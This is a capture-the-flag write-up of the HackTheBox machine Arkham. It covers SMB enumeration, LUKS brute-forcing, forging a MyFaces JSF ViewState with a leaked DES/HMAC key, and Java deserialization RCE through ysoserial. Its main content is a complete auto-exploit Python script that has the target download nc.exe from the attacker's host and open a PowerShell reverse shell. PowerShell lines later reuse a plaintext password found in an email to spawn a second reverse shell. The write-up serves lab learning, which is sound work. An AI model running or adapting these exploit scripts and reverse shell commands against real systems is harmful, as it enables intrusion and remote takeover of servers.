

Arkham was a Medium Level Box from HackTheBox, which I could certainly say that is harder than just Medium, it can be compared with Insane boxes. The vulnerability will need to trigger is a java deserealization, but the hardest part is to figure out how to crypt/decrypt the param that we need to send to the box to trigger it.

The privilege escalation was not so hard, we found an e-mail box and got a password in it.

The auto python script for the first shell is on the post. Hope you enjoy.

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.130
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We open it on the browser and see what is being shown.

When tryied to access 10.10.10.130 on the browser.


Standard ISS page

Gobuster did not return anything.

## Port 8080

We access it too


After spending sometime looking for interesting things on the website. We found one page which called our attention

`userSubscribe.faces`


We try to subscribe


And looking at burp we got some important information

```
j_id_jsp_1623871077_1%3Aemail=0x4rt3mis&j_id_jsp_1623871077_1%3Asubmit=SIGN+UP&j_id_jsp_1623871077_1_SUBMIT=1&javax.faces.ViewState=wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D
```


The .faces page seems to be hosted in a [Java Faces](https://en.wikipedia.org/wiki/JavaServer_Faces) way.

## Port 445

Looking at port 445 we have a samba server running in it

```sh
smbclient -N -L //10.10.10.130
```


We can look at `Users` folders

```sh
smbclient -N //10.10.10.130/users
```


We can look at `batshare` folder

```sh
smbclient -N //10.10.10.130/batshare
```


We download it


Unzip and read the IMPORTANT.txt, seems to be a hint about what to do with it


We look at the IMG and it's a [Luks](https://guardianproject.info/archive/luks/)


### Luks Bruteforce

So, we can bruteforce it wit [Luks Bruteforce](https://github.com/glv2/bruteforce-luks)

We can install it from apt

```sh
apt install bruteforce-luks
```


How it seems to be a hint, we'll grep everything with `batman` from rockyou, and try to bruteforce it

```sh
grep batman /usr/share/wordlists/rockyou.txt > rock_new.txt
```


Now we can bruteforce it

```sh
bruteforce-luks -t 10 -f rock_new.txt -v 30 backup.img
```

Options:

*-t* threads

*-f* file with the passwords

*-v* show progress every 30 seconds

It tooks almost four minutes, and gave me the pass!!


### Mount it

Now, with the password and the image, we can try to mount it

First, we'll use `cryptsetup` to open the file, with the last argument being what I want to name the opened device

```sh
cryptsetup open --type luks backup.img 0x4rt3mis
ls -l /dev/mapper/
```


Now, we can mount the device

```sh
mount /dev/mapper/0x4rt3mis /mnt/0x4rt3mis/
```


Now we just enumerate it, found many images and what seems to be some tomcat config files


The most important file we found was the `web.xml.bak`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns="http://java.sun.com/xml/ns/javaee" xmlns:web="http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd"
xsi:schemaLocation="http://java.sun.com/xml/ns/javaee http://java.sun.com/xml/ns/javaee/web-app_2_5.xsd"
id="WebApp_ID" version="2.5">
<display-name>HelloWorldJSF</display-name>
<welcome-file-list>
<welcome-file>index.html</welcome-file>
<welcome-file>index.htm</welcome-file>
<welcome-file>default.html</welcome-file>
<welcome-file>default.htm</welcome-file>
<welcome-file>default.jsp</welcome-file>
</welcome-file-list>
<servlet>
<servlet-name>Faces Servlet</servlet-name>
<servlet-class>javax.faces.webapp.FacesServlet</servlet-class>
<load-on-startup>1</load-on-startup>
</servlet>
<servlet-mapping>
<servlet-name>Faces Servlet</servlet-name>
<url-pattern>*.faces</url-pattern>
</servlet-mapping>
<context-param>
<param-name>javax.servlet.jsp.jstl.fmt.localizationContext</param-name>
<param-value>resources.application</param-value>
</context-param>
<context-param>
<description>State saving method: 'client' or 'server' (=default). See JSF Specification 2.5.2</description>
<param-name>javax.faces.STATE_SAVING_METHOD</param-name>
<param-value>server</param-value>
</context-param>
<context-param>
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
<context-param>
<description>
This parameter tells MyFaces if javascript code should be allowed in
the rendered HTML output.
If javascript is allowed, command_link anchors will have javascript code
that submits the corresponding form.
If javascript is not allowed, the state saving info and nested parameters
will be added as url parameters.
Default is 'true'</description>
<param-name>org.apache.myfaces.ALLOW_JAVASCRIPT</param-name>
<param-value>true</param-value>
</context-param>
<context-param>
<description>
If true, rendered HTML code will be formatted, so that it is 'human-readable'
i.e. additional line separators and whitespace will be written, that do not
influence the HTML code.
Default is 'true'</description>
<param-name>org.apache.myfaces.PRETTY_HTML</param-name>
<param-value>true</param-value>
</context-param>
<context-param>
<param-name>org.apache.myfaces.DETECT_JAVASCRIPT</param-name>
<param-value>false</param-value>
</context-param>
<context-param>
<description>
If true, a javascript function will be rendered that is able to restore the
former vertical scroll on every request. Convenient feature if you have pages
with long lists and you do not want the browser page to always jump to the top
if you trigger a link or button action that stays on the same page.
Default is 'false'
</description>
<param-name>org.apache.myfaces.AUTO_SCROLL</param-name>
<param-value>true</param-value>
</context-param>
<context-param>
<param-name>com.sun.faces.numberOfViewsInSession</param-name>
<param-value>500</param-value>
</context-param>
<context-param>
<param-name>com.sun.faces.numberOfLogicalViews</param-name>
<param-value>500</param-value>
</context-param>
<listener>
<listener-class>org.apache.myfaces.webapp.StartupServletContextListener</listener-class>
</listener>
</web-app>
```

What is important here?

Line 21 it says it matches *.faces urls.

Line 28, I get the JSF version, 2.5.2.

Lines 33-34 give the SECRET, SnNGOTg3Ni0=

Lines 37-39 show MAC algorithm (MAC_ALGORITHM) to be HmacSHA1.

Lines 40-43 show the MAC_SECRET to be the same as the encryption secret.

With these informations we can start hunting for our reverse shell.

# Alfred Shell

We can start looking for some vulnerabilities in this JSF version 2.5.2


We see that most of them are referring to ViewState, which we see on the burpsuite when subscripting to the website

We got a good reference [Here](https://www.synacktiv.com/ressources/JSF_ViewState_InYourFace.pdf) for what we need to do. [Here2](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html), [Here3](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/) and [Here4](https://gist.github.com/cdowns71/76d99ad0829ceef3a83761dbeee3b66d)

What we'll do?

1 - Test how a bad ViewState works, sending one to the server.

2 - Decrypt one ViewState to see how it's being encrypted.

3 - Create a python script to crypt a good one.

4 - Generate a payload with yososerial to ping me, and put it on ViewState.

5 - Upgrade to a reverse shell.

## 1 - Invalida ViewState

It's simple, just intercept one bad request from burp suite and see how it works


A small change on the base64 ViewState and we got a 500 error. Good to know it.

## 2 - Decrypt ViewState

Now, let's decrypt the ViewState and see what we got there

If we just try to base64 decode it in burp, we get a loot of garbage


Luckily we have the server configuration files. In web.xml.bak I found the key used to encrypt the data, also the MAC algorithm which was hmac-sha1 and the used key. 

Let's decode the key


So, the key used was `JsF9876-`

We can turn the payload in a byte stream


`b'\xc0z4\xc2b\xee\xe5\xc7\x88\xb4\x88\xbe#\xb5\xe4\x12-F\x01\xbe!\xd7e\x99\xf3\xde)\x03\xe6x8~\xdbr\x8d\xa3\\L\xb5EG\x0e]s@\xbd4\x82\xefB\xad\x0e\xd9\xe0\x8c9\xb4\x98\xdc\xc0\xf6\xa1\xe3a\xea\xf1\xa3H\xd6\xef;\xb5k\xa5\xa1\x9cKW\xad6\xe5{;;g\xbb\x0eS\xa2\xf9P\xc8'`

I'm suggesting that the HMAC is stored in the last 20 bytes, it matches...


```
from Crypto.Cipher import DES
import hashlib
import hmac
bytes = b'\xc0z4\xc2b\xee\xe5\xc7\x88\xb4\x88\xbe#\xb5\xe4\x12-F\x01\xbe!\xd7e\x99\xf3\xde)\x03\xe6x8~\xdbr\x8d\xa3\\L\xb5EG\x0e]s@\xbd4\x82\xefB\xad\x0e\xd9\xe0\x8c9\xb4\x98\xdc\xc0\xf6\xa1\xe3a\xea\xf1\xa3H\xd6\xef;\xb5k\xa5\xa1\x9cKW\xad6\xe5{;;g\xbb\x0eS\xa2\xf9P\xc8'
enc = bytes[:-20]
mac = bytes[-20:]
b = hmac.new(b'JsF9876-', enc, hashlib.sha1).digest()
b
b == mac
```


Now we can decrypt the payload:

```
from Crypto.Cipher import DES
d = DES.new(b'JsF9876-', DES.MODE_ECB)
d.decrypt(enc)
```


## 3 - Create a Python Script

Once we already know the key, the encryption type and we have the config file, let's create a python script to make it for us.


```py
#!/usr/bin/env python3
# Author: 0xdf - https://0xdf.gitlab.io/2019/08/10/htb-arkham.html#invalid-viewstate

from base64 import b64encode
from Crypto.Cipher import DES
from Crypto.Hash import SHA, HMAC
from urllib.parse import quote_plus as urlencode

bin_vs = b'\xac\xed\x00\x05ur\x00\x13[Ljava.lang.Object;\x90\xceX\x9f\x10s)l\x02\x00\x00xp\x00\x00\x00\x03t\x00\x011pt\x00\x12/userSubscribe.jsp\x02\x02'
vs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'

d = DES.new(b'JsF9876-', DES.MODE_ECB)
enc_payload = d.encrypt(bin_vs)
sig = HMAC.new(b'JsF9876-', enc_payload, SHA).digest()
gen_vs = urlencode(b64encode(enc_payload + sig))
if gen_vs == vs:
    print("It worked!")
print(gen_vs)
print(vs)
```

We know that we can encrypt some payload. Now let's generate one with `ysoserial`

[YSOSERIAL](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)


Now we can create a script to encrypt the payload and send to the server


```py
#!/usr/bin/env python3
# Author: ippsec

import requests
from base64 import b64decode, b64encode
from hashlib import sha1
import pyDes, hmac

url = 'http://10.10.10.130:8080/userSubscribe.faces'

def create_payload():
        payload = open ('payload.bin', 'rb').read()
        return encrypt_payload(payload)

def encrypt_payload(payload):
        key = b64decode('SnNGOTg3Ni0=')
        obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
        enc = obj.encrypt(payload)
        hash_val = (hmac.new(key, bytes(enc), sha1).digest())
        payload = enc + hash_val
        return b64encode(payload)

def decrypt_view_state(view_state):
        key = b64decode('SnNGOTg3Ni0=')
        obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
        view_state = b64decode(view_state)
        view_state = view_state + b'\x00\x00\x00\x00'
        dec = obj.decrypt(view_state)
        return dec

def exploit():
        view_state = create_payload()
        data = { 'javax.faces.ViewState' : view_state }
        requests.post(url, data=data)

exploit()
```

Now, we can addapt it to our python skeleton, to become more modular and reusable the script

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

And we have an easy shell on the box


full_rev.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto exploit yososerial in Arkham - HackTheBox
# Date: 15/09/21

import argparse
import requests
import sys
from base64 import b64decode, b64encode
from hashlib import sha1
import pyDes, hmac
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import os

'''Setting up something important'''

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Download the yososerial
def downloadPayGen():
    print("[+] Let's copy nc to the working path ! [+]")
    os.system("cp /usr/share/windows-binaries/nc.exe .")
    print("[+] nc copied ! [+]")
    print("[+] Let's test to see if we already have yososerial on the working folder ! [+]")
    output_jar = "ysoserial-master-SNAPSHOT.jar"
    if not os.path.isfile(output_jar):
        print("[+] I did no locate it, let's dowload ! WAAAAAAAIT SOME MINUTES TO COMPLETE IT ! [+]")
        os.system("wget -q https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar")
    else:
        print("[+] We already have it, let's exploit !!! [+]")

# Function to generate the payload
def downloadNcRemote(lhost):
    print("[+] Let's download the nc to the remote box !!! [+]")
    cmd = "powershell.exe IWR -Uri http://%s/nc.exe -OutFile C:\\Windows\\temp\\nc.exe" % (lhost)
    os.system("java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 '%s' > payload.bin" %cmd)
    exploit()
    print("[+] Download done, let's get the reverse shell ! [+]")

def getReverseShell(lhost,lport):
    os.system("sleep 5")
    print("[+] Let's grab some shell ! [+]")
    cmd = "cmd /c C:\\Windows\\temp\\nc.exe %s %s -e powershell" %(lhost,lport)
    os.system("java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 '%s' > payload.bin" %cmd)
    exploit()

## Section to Exploit the Things - Credits - 0xdf
def create_payload():
    payload = open ('payload.bin', 'rb').read()
    return encrypt_payload(payload)

def encrypt_payload(payload):
    key = b64decode('SnNGOTg3Ni0=')
    obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
    enc = obj.encrypt(payload)
    hash_val = (hmac.new(key, bytes(enc), sha1).digest())
    payload = enc + hash_val
    return b64encode(payload)

def decrypt_view_state(view_state):
    key = b64decode('SnNGOTg3Ni0=')
    obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
    view_state = b64decode(view_state)
    view_state = view_state + b'\x00\x00\x00\x00'
    dec = obj.decrypt(view_state)
    return dec

def exploit():
    view_state = create_payload()
    data = { 'javax.faces.ViewState' : view_state }
    r.post(url, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.ipaddress
    lport = args.port
    global url
    url = 'http://%s:8080/userSubscribe.faces' %rhost

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Let's set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # First we need to download the yososerial
    downloadPayGen()
    # Now download the nc on the remote box
    downloadNcRemote(lhost)
    # Now let's get the reverse shell
    getReverseShell(lhost,lport)

if __name__ == '__main__':
    main()
```

# Alfred -> Batman

Now, let's start our privilege escalation on this box

Looking arround we get some configuration files on the server. We found some interesting stuff in `C:\Users\alfred\Downloads\backups\backup.zip`


Copy it to our box trough smbserver

```
impacket-smbserver share . -username 0x4rt3mis -password 123456 -smb2support
net use \\10.10.14.20\share /u:0x4rt3mis 123456
```


Now, just copy it


We unzip and see a outlook file e-mail


We can "read" the e-mails with `readpst` and a base64 image


We find a message on the Drafts folder


It's a password from the user `batman`


Now we can login as batman on this box

```
batman:Zx^#QZX+T!123
```

So, let's do it

```ps
$pass = ConvertTo-SecureString 'Zx^#QZX+T!123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("batman",$pass)
Invoke-Command -Computer ARKHAM -ScriptBlock {IWR -Uri 10.10.14.20:8000/nc.exe -OutFile nc.exe} -Credential $cred
Invoke-Command -Computer ARKHAM -ScriptBlock {cmd /c nc.exe 10.10.14.20 555 -e powershell.exe} -Credential $cred
```


And with that we root the box, but we cannot access the root folder yet


This means we need to do a UAC Bypass in it, or simple mount the C$ folder (what I'll do because of the time)

```
net use Z: \\ARKHAM\C$
```


# Code Analysis

What called my attention in this box is the way to found the serialization vulnerability

We go to the tomcat folder

`Z:\tomcat\apache-tomcat-8.5.37`


Go to the `userSubscribe.jsp`


And pass it to our box

```
certutil -encode C:\tomcat\apache-tomcat-8.5.37\webapps\ROOT\userSubscribe.jsp C:\tomcat\apache-tomcat-8.5.37\webapps\ROOT\userSubscribe.jsp.base64
```


Simply copy and paste


We see that's just the jsp form to input the subscription


We can start looking for patterns for Deserealization in Java.

After we copy the apache folder to our kali box, we can start it

`WhiteBox Review` to find Java Deserealization 

Be aware of the following Java API uses for potential serialization vulnerability.

1. XMLdecoder with external user defined parameters

2. XStream with fromXML method (xstream version <= v1.46 is vulnerable to the serialization issue)

3. ObjectInputStream with readObject

4. Uses of readObject, readObjectNodData, readResolve or readExternal

5. ObjectInputStream.readUnshared

6. Serializable

So, let's start looking at

```sh
grep -lRi 'ObjectInputStream'
```


We open it in `jd-gui`


Save all sourcer


Unzip It


After debbuging some code we found where it's being deserealized and triggered the vulnerability

